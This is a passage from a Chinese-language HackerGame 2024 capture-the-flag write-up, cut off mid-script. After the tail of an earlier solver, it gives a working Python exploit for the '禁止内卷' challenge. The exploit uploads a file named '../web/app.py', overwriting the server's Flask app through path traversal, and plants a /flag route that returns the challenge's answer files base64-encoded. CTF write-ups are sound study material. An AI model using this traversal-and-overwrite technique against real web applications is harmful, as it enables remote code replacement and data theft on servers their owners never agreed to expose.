 ```Plain Text
    output = p.recvall(timeout=2)
    print(f"Server response:\n{output.decode()}")
else:
    print("Failed to find a solution.")

p.close()
```

![image.png](HackerGame2024+d7a78663-e26b-4866-b8d5-dfce1d0f52d7/image 28.png)



# 禁止内卷

上传恶意文件覆盖app.py

然后改路由下载json

```Plain Text
import base64
import requests
import time

# 禁用SSL警告
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# CTF服务器地址
BASE_URL = 'https://chal02-26fc9773.hack-challenge.lug.ustc.edu.cn:8443/'

# 恶意的app.py内容，添加一个/flag路由
malicious_app_py = '''
from flask import Flask, jsonify
import base64

app = Flask(__name__)

@app.route('/flag')
def flag():
    try:
        # 读取 results.json 并进行 Base64 编码
        with open("results.json", "rb") as f:
            results_base64 = base64.b64encode(f.read()).decode('utf-8')

        # 读取 answers.json 并进行 Base64 编码
        with open("answers.json", "rb") as f:
            answers_base64 = base64.b64encode(f.read()).decode('utf-8')

        return jsonify({
            "results_base64": results_base64,
            "answers_base64": answers_base64
        }), 200
    except Exception as e:
        return jsonify({"error": str(e)}), 500
'''

def upload_malicious_file():
    files = {
        'file': ('../web/app.py', malicious_app_py)
    }
    try:
        response = requests.post(BASE_URL + 'submit', files=files, verify=False)
        if '评测成功' in response.text:
            print("[+] 恶意文件上传成功。")
```